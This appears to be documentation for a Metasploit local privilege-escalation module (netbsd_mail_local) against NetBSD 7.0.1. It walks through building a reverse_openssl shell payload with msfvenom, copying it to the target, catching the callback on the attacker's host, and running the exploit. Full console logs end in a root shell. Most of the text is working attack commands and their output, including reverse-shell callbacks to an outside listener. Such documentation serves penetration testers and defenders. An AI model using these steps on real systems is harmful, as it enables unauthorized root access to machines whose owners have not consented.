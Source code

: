 ## Vulnerable Application

  NetBSD 7.0.1 is available from the [official](http://cdn.netbsd.org/pub/NetBSD/NetBSD-7.0.1/images/NetBSD-7.0.1-amd64.iso) site, or on an [unofficial git](https://github.com/h00die/MSF-Testing-Scripts/blob/master/NetBSD-7.0.1-amd64.iso) 

## Issues
Getting an initial shell that can write files correctly was difficult.  The best I found was reverse_openssl.

Payloads that didn't work:
* cmd/unix/reverse - connected back, but couldn't write file.
```
[*] Started reverse TCP double handler on 172.16.152.1:4444 
[*] Writing Payload to /tmp/zrWqhXpL
[*] Max line length is 131073
[*] /usr/bin/printf '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] printf '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] /usr/bin/printf %b '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] printf %b '\0\377\376\101\102\103\104\177\45\45\15\12' Failed: "\xFF\xF4\xFF\xFD\x06\xFF\xFF\xFEABCD\x7F%%\r\x00\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] perl -e 'print("\0\377\376\101\102\103\104\177\45\45\15\12")' Failed: "perl: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] gawk 'BEGIN {ORS="";print "\x00\xff\xfe\x41\x42\x43\x44\x7f\x25\x25\x0d\x0a"}' </dev/null Failed: "gawk: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] echo '00fffe414243447f25250d0a'|xxd -p -r Failed: "xxd: not found\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[*] echo -ne '\x00\xff\xfe\x41\x42\x43\x44\x7f\x25\x25\x0d\x0a' Failed: "-ne \\x00\\xff\\xfe\\x41\\x42\\x43\\x44\\x7f\\x25\\x25\\x0d\\x0a\r\n" != "\x00\xFF\xFEABCD\x7F%%\r\n"
[-] Exploit failed: RuntimeError Can't find command on the victim for writing binary data
[*] Exploit completed, but no session was created.
```
* cmd/unix/reverse_awk - `awk: syntax error at source line 1`
* cmd/unix/reverse_bash - `./bsd.payload: 1: Syntax error: Bad fd number`
* cmd/unix/reverse_bash_telnet_ssl - `$ telnet: unknown option -- z`
* cmd/unix/reverse_ssl_double_telnet - `$ telnet: unknown option -- z`
* cmd/unix/reverse_lua - `lua: (command line):1: module 'socket' not found`
* netcat, node, perl, php, python, php, ruby, zsh - all not installed by default
* bsd/* didn't seem to work either, maybe its for freebsd?

Payloads that did work:
* cmd/unix/reverse_openssl

## Verification Steps

  1. Start msfconsole
  2. Get an initial shell
    1. Create working shell, scp it over
```
./msfvenom -p cmd/unix/reverse_openssl lhost=172.16.152.1 -f raw -o /tmp/bsd.payload
scp /tmp/bsd.payload user@172.16.152.128:/tmp/
```
    2. Setup msf to handle
```
use exploit/multi/handler
set payload cmd/unix/reverse_openssl
set lhost 172.16.152.1
exploit
```
    3. Run the shell from NetBSD
```
$ cd /tmp
$ ls
bsd.payload
$ chmod +x bsd.payload 
$ ./bsd.payload 
$ WARNING: can't open config file: /etc/openssl/openssl.cnf
depth=0 CN = vgekg
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = vgekg
verify return:1
```
    4. Receive the shell and background it
```
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Starting the payload handler...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NwNHAEiJioYIvn4M;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "NwNHAEiJioYIvn4M\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.152.1:4444 -> 172.16.152.128:65534) at 2016-08-25 19:58:39 -0400
^Z
Background session 1? [y/N]  y
```
  3. Do: `use exploit/unix/local/netbsd_mail_local`
  4. Do: `set payload cmd/unix/reverse_openssl`
  5. Do: `set lhost 172.16.152.1`
  6. Do: `set verbose true`
  7. Do: `set session 1`
  8. Do: `exploit`
  9. You should get a *root* shell.

## Options

  **ATRUNPATH**
  File location of atrun, defaults to `/usr/libexec/atrun`
  
  **MAILDIR**
  Location of mail folder, defaults to `/var/mail`
  
  **WritableDir**
  Location of a writable directory for our payload, defaults to `/tmp`
  
  **ListenerTimeout**
  Since this exploit utilized a cron which has a 10min timer, the listener timeout needs to be 10min + padding.  Defaults to `603` seconds (10min, 3sec)

## Scenarios

  Here is a run against a virgin install of `NetBSD  7.0.1 NetBSD 7.0.1 (GENERIC.201605221355Z) amd64` (from the unofficial link at the top)
  
  In this example, I got lucky and only had to wait ~1min for the cron to hit, which is every 10min by default

  1. Get an initial shell
    1. Create working shell, scp it over
```
./msfvenom -p cmd/unix/reverse_openssl lhost=172.16.152.1 -f raw -o /tmp/bsd.payload
scp /tmp/bsd.payload user@172.16.152.128:/tmp/
```
    2. Setup msf to handle
```
use exploit/multi/handler
set payload cmd/unix/reverse_openssl
set lhost 172.16.152.1
exploit
```
    3. Run the shell from NetBSD
```
$ cd /tmp
$ ls
bsd.payload
$ chmod +x bsd.payload 
$ ./bsd.payload 
$ WARNING: can't open config file: /etc/openssl/openssl.cnf
depth=0 CN = vgekg
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = vgekg
verify return:1
```
    4. Receive the shell and background it
```
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Starting the payload handler...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo NwNHAEiJioYIvn4M;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "NwNHAEiJioYIvn4M\n"
[*] Matching...
[*] B is input...
[*] Command shell session 1 opened (172.16.152.1:4444 -> 172.16.152.128:65534) at 2016-08-25 19:58:39 -0400
^Z
Background session 1? [y/N]  y
```
  2. Run the exploit
```
msf exploit(netbsd_mail_local) > set payload cmd/unix/reverse_openssl
payload => cmd/unix/reverse_openssl
msf exploit(netbsd_mail_local) > set lhost 172.16.152.1
lhost => 172.16.152.1
msf exploit(netbsd_mail_local) > set verbose true
verbose => true
msf exploit(netbsd_mail_local) > set session 1
session => 1
msf exploit(netbsd_mail_local) > exploit
[*] Started reverse double SSL handler on 172.16.152.1:4444 
[*] Writing Payload to /tmp/pjDkvmGg
[*] Max line length is 131073
[*] Writing 176 bytes in 1 chunks of 618 bytes (octal-encoded), using printf
[*] Writing exploit to /tmp/GHIKGOWX.c
[*] Max line length is 131073
[*] Writing 4898 bytes in 1 chunks of 17162 bytes (octal-encoded), using printf
[*] Compiling /tmp/GHIKGOWX.c via gcc
[*] Starting the payload handler...
[*] Executing at 2016-08-25 19:59:04 -0400.  May take up to 10min for callback
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo X6C4UIDx4zmwM0DJ;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket A
[*] A: "X6C4UIDx4zmwM0DJ\n"
[*] Matching...
[*] B is input...
[*] Command shell session 2 opened (172.16.152.1:4444 -> 172.16.152.128:65532) at 2016-08-25 20:00:02 -0400
[*] 2016-08-25 20:00:02 -0400
[*] Remember to run: chown root:wheel /usr/libexec/atrun
[+] Deleted /tmp/pjDkvmGg
[!] This exploit may require manual cleanup of '/tmp/pjDkvmGg' on the target
[!] This exploit may require manual cleanup of '/tmp/GHIKGOWX' on the target
[!] This exploit may require manual cleanup of '/tmp/GHIKGOWX.out' on the target
1633029467
TkBWZEPqsRvYvmwNaTcjImhcSzZHOAtY
true
JUqfyioWthnpvyxRJAZosSGQjnLHqPUB
sHXbQbHqFIbnZGoFWlZoppGprWyKwFCr
nDpSrEmQhDuVSxIpILWCOABbMOIAWUTx
whoami
root
```